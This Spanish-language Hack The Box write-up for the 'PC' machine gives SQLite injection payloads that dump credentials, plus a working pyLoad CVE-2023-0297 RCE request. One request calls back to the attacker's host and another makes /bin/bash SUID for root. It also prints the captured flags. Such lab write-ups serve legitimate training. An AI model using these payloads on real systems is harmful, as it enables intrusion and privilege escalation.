 ```yaml
---
title: PC HTB
date: 2023-07-19
tier: easy
author: naibu3
---
```


# Reconocimiento

Como siempre comenzamos lanzando [[nmap]], para tratar de buscar puertos abiertos:

```bash
sudo nmap -sS -p- --open --min-rate 5000 -n -Pn 10.10.11.214
```
```nmap
PORT      STATE SERVICE
22/tcp    open  ssh
50051/tcp open  unknown
```

Ahora tratamos de detectar versiones y servicios:

```bash
sudo nmap -sCV -p22,50051 -n -Pn 10.10.11.214
```
```nmap
22/tcp    open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
50051/tcp open  unknown
```

Vemos que se trata de un puerto bastante raro. Además si tratamos de comunicarnos con [[curl]], nos da el siguiente mensaje de error:

```curl
Received HTTP/0.9 when not allowed
```

Si buscamos el error y *service*, encontraremos que puede tratarse de un servicio [[gRPC]]. Además, en este [artículo](https://medium.com/@ibm_ptc_security/grpc-security-series-part-3-c92f3b687dd9) se detalla bastante. Podemos utilizar la herramienta [[grpcurl]], pero es más cómoda [[grpcui]]. Así que la instalamos y utilizamos el siguiente comando:

```bash
grpcui -plaintext 10.10.11.214:50051
```

Se nos abrirá en el navegador una pestaña mediante la cuál podremos tramitar peticiones a la API. Si tratamos de hacer *login* con las credenciales *admin:admin*, veremos que nos dan un *Jason Web Token* ([[JWT]]) y un *ID*. Ahora, si tratamos de hacer una petición a *getInfo*, pasando el ID y el JWT, veremos un mensaje de error `Unexpected <class 'TypeError'>: 'NoneType' object is not subscriptable`. Si tratamos de capturar la petición con [[burpsuite]] y probamos con una inyección SQL ([[SQL Injection]]) como `OR 1=1-- -`, veremos que nos reporta un error, dándonos la pista de que pueda ser vulnerable a [[SQL Injection]].

# Explotación

Vamos a tratar de enumerar la base de datos, para ver que tipo de BD se trata, probaremos distintas funciones de cada gestor (puedes verlas en [HackTricks](https://book.hacktricks.xyz/pentesting-web/sql-injection)). Si probamos con una de **SQLite**:

```sql
542 UNION SELECT sqlite_version()=sqlite_version()-- -
```

Vemos que funciona, por lo que el gestor es **SQLite**. Vamos a tratar ahora de enumerar las bases de datos (utilizaremos las inyecciones de [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/SQLite%20Injection.md)):

```sql
542 UNIoN SELECT group_concat(tbl_name) FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%'-- -
```

En la respuesta vemos dos tablas **accounts** y **messages**. Vamos a tratar de ver qué columnas hay en **accounts**:

```sql
542 UNIoN SELECT sql FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name ='accounts'-- -
```

Y vemos que hay dos columnas **username** y **password**. Ya podemos directamente tratar de listar los usuarios (debemos utilizar *group_concat*):

```sql
542 UNION SELECT group_concat(username) FROM accounts-- -
```

Y vemos que existen dos usuarios **admin** y **sau**. Vamos a tratar de listar sus contraseñas:

```sql
542 UNIoN SELECT group_concat(password) From accounts WHERE username='sau'-- -
```

Para *admin* ya sabíamos que era *admin*, y tenemos que para **sau** es **HereIsYourPassWord1431**. Si tratamos de acceder por [[22-ssh]], lograremos acceder y ver la **flag de usuario** (`83508536f23f17e1e05c57c82ed1c8cb`).

# Escalada de privilegios

Una vez dentro comenzaremos con el [[Reconocimiento del equipo]]. Como no vemos nada sospechoso lanzamos [[linpeas]]. Entre otras cosas, podemos ver que hay un servicio corriendo en el puerto 8000:

```linpeas
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:8000          0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:9666            0.0.0.0:*               LISTEN      -                   
tcp6       0      0 :::22                   :::*                    LISTEN      -                   
tcp6       0      0 :::50051                :::*                    LISTEN      -
```

Así que hacemos [[eJPT-Notes/port forwarding]]:

```bash
ssh -L 8000:127.0.0.1:8000 sau@10.10.11.214
```

Si lanzamos [[nmap]]:

```bash
nmap -p8000 -sCV localhost
```
```nmap
PORT     STATE SERVICE VERSION
8000/tcp open  http    CherryPy wsgiserver
| http-robots.txt: 1 disallowed entry 
|_/
|_http-server-header: Cheroot/8.6.0
| http-title: Login - pyLoad 
|_Requested resource was /login?next=http%3A%2F%2Flocalhost%3A8000%2F
```

Vemos que está corriendo un servicio [[80-http]] con lo que parece un **pyLoad**. Si accedemos via navegador, confirmamos que se trata de dicho servicio. Veremos un panel de login en el que no parecen funcionar las credenciales por defecto.

Con una búsqueda por internet encontramos el siguiente [artículo](https://github.com/bAuh0lz/CVE-2023-0297_Pre-auth_RCE_in_pyLoad). Vemos que tenemos un [[RCE]]. Podemos comprobarlo montándonos un servidor http con [[python 1]] y tratando de mandarnos una petición desde el servidor:

```bash
curl -i -s -k -X $'POST' \                                                               
    --data-binary $'jk=pyimport%20os;os.system(\"curl%2010.10.16.114\");f=function%20f2(){};&package=xxx&crypted=AAAA&&passwords=aaaa' \ 
    $'http://localhost:8000/flash/addcrypted2'
```

Como recibimos la respuesta correctamente, podemos tratar de cambiar los privilegios de la bash:

```bash
curl -i -s -k -X $'POST' --data-binary $'jk=pyimport%20os;os.system(\"chmod%20+4777%20/bin/bash\");f=function%20f2(){};&package=xxx&crypted=AAAA&&passwords=aaaa' $'http://localhost:8000/flash/addcrypted2'
```

Y ya con un `bash -p` ya seríamos root. La flag es (`a31593104e9b23a59b146166fc794f72`).